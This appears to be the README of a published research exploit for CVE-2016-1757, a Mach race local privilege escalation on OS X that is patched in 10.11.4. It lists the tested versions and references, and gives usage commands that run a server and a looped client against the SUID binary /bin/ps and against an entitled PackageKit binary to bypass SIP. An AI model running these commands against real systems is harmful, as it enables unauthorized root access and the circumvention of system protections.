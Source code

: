 Mach Race OS X Local Privilege Escalation Exploit

(c) fG! 2015, 2016, reverser@put.as - https://reverse.put.as

----------------

A SUID, SIP, and binary entitlements universal OS X exploit (CVE-2016-1757).

----------------

Usage against a SUID binary:

./mach_race_server /bin/ps _compat_mode

for i in `seq 0 1000000`; do ./mach_race_client /bin/ps; done

Against an entitled binary to bypass SIP:

./mach_race_server /System/Library/PrivateFrameworks/PackageKit.framework/Versions/A/Resources/system_shove _geteuid

for i in `seq 0 1000000`; do ./mach_race_client /System/Library/PrivateFrameworks/PackageKit.framework/Versions/A/Resources/system_shove; done

----------

References:

https://reverse.put.as/wp-content/uploads/2016/04/SyScan360_SG_2016_-_Memory_Corruption_is_for_wussies.pdf

http://googleprojectzero.blogspot.pt/2016/03/race-you-to-kernel.html

--------------

Tested against Mavericks 10.10.5, Yosemite 10.10.5, El Capitan 10.11.2 and 10.11.3.

Fixed in El Capitan 10.11.4.

Should work with all OS X versions (depends if bootstrap_register2 exists on older versions).

Alternative implementation with bootstrap_create_server possible for older versions.
